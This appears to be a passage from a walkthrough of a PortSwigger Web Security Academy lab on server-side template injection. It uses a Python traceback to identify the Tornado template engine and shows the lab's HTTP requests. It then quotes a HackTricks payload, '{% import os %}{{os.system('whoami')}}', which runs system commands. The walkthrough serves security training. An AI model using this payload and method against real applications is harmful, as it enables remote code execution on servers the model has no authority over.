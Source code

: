 We're mainly interested in the `blog-post-author-display=user.name` in the req body.
When we post a new comment we see that the name of our user `Peter Wiener | 13 January 2025` is displayed above the newly created comment.
Since `blog-post-author-display=user.name` looks very suspicious (i.e. it looks like user is an object and `name` is a property on that object) we now need to figure out if we can use that for template injection. We can try to send template injection payloads from hacktricks to test if they are evaluated or we can try to trigger an error that may reveal the templating engine for us
So we send the req:
```bash
POST /my-account/change-blog-post-author-display HTTP/2
Host: 0add004904b44737974520be00570043.web-security-academy.net
Cookie: session=LoSWdD6AbEu9H4qpnbirrCUODHJCuiNX
...

blog-post-author-display=user.doesnotexist&csrf=kAd7ZGpiVCystXK4dfO7BMTtWIk0uvLw
```
And the response looks OK:
```bash
HTTP/2 302 Found
Location: /my-account
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```
But if we refresh the blog post page on which we previously posted a new comment, in the response we see the err:
```bash
Traceback (most recent call last): File "<string>", line 16, in <module> File "/usr/local/lib/python2.7/dist-packages/tornado/template.py", line 348, in generate return execute() File "<string>.generated.py", line 4, in _tt_execute AttributeError: User instance has no attribute 'doesnotexiste'
```

The error tells us that the TE is python's tornado TE. We can go to hacktricks and search for `tornado`:
```bash
https://hacktricks.boitatech.com.br/pentesting-web/ssti-server-side-template-injection
```
From hacktricks we copy the payload for tornado TE:
```bash
{% import os %}{{os.system('whoami')}}
```

Now it is very important to have an idea what the template looks like on the server. It is probably something like:
```bash
<p>
    <img src=... >
    {{ user.name }} | {{ comment.date }}
</p>
```

And `user.name` is specified in the request body:
```bash
POST /my-account/change-blog-post-author-display HTTP/2
Host: 0add004904b44737974520be00570043.web-security-academy.net
Cookie: session=LoSWdD6AbEu9H4qpnbirrCUODHJCuiNX
...

blog-post-author-display=user.name&csrf=kAd7ZGpiVCystXK4dfO7BMTtWIk0uvLw
```
